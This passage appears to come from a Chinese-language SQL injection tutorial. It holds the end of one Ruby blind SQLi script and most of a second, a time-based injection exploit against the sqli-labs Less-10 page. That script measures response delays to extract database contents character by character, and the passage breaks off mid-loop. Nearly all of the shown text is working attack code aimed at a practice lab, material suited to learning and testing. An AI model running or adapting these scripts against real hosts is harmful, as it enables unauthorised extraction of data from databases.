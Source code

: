 ```

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

## 基于时间的 SQLi Exploit 脚本

一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于时间的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_tbsqli(url, query, time2wait)
  begin
    start_time = Time.now
    response = open(URI.parse( URI.encode("#{url}#{query}") ))
    end_time   = Time.now
    howlong    = end_time - start_time

    if howlong >= time2wait
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-10/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold
time2wait = 5
extracted = []
(1..76).map do |position| 
  (32..126).map do |char|
```